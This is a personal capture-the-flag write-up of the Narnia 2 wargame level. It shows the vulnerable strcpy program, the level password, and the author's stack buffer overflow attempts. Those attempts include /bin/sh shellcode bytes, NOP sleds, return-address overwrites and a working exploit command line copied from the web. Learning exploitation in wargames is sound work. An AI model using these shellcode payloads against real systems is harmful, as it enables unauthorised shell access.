 # Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.

The buffer is 128 chars, so after 128 we have overloaded the buffer and start overwriting the main code. The strcpy command is around 56 32bit words down, so we need to overwrite by a further 1152 bytes...I think. I gave this a go, but it wasn't successful. 

However I did discover that if I overflowed the buffer by 136 characters, the final four characters overwrote the return address from the main function. From this, after a bit of further research, I worked out that the approach might be to include the shell code in the buffer, then jump to it by overflowing the return address. Hmm.

At this point I spent some time doing some learning. The following three videos from LiveOverflow were very helpful (they're in a row as part of the Binary Hacking playlist):

- [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13)
- [Buffer Overflows can Redirect Program Execution - bin 0x0D](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
- [First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)

On top of that, the original article by AlephOne on stack overflows fills in the missing pieces, and is excellent:

[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

## Steps

The buffer size is 128. I am going to insert the shellcode from narnia1 I came up with, prefixed with NOP instructions and post fixed with a return address that attempts to force the program to jump back into the buffer when it returns from main.

Running GDB with the following string:

ABCDEFGHIJKLMNOPQRSTUVWXYZ67890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Causes ret to be overflown with XXXX. So we can set the ret address to whatever by replacing XXXX in our dev string with something else.

Breakpointing after the strcpy shows the first address of the buffer (containing ABCD in reverse order) is 0xffffd5a8.

Our shellcode, \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68, is in reality 28 characters long.

So perhaps shellcode + padding + address?

Address is \xa8\xd5\xff\xff

Padding is 132 - 28 = 104, so AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Final string is \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff

```
./narnia2 $(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff")
```

This results in a segfault :( Back to GDB...

Maybe prefix with NOPs?

```
./narnia2 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc0\xd5\xff\xff")
```

The code is getting executed but doesnt seem to be jumping into execve.

Bouncing around the net, this code is doing what I am trying to do, and works:

`./narnia2 $(python -c 'print "\x90"*75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc8\xd5\xff\xff"*11')`

Breaking down my code, and switching to python to see if encoding is easier (and to make it easier to evaluate):

Total character size: 136 (75 + 25 + 44 in working code, so 144)
Length of my shellcode: 28

My python script would be `./narnia2 $(python -c 'print "\x90"*104 + "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\xc0\xd5\xff\xff"')`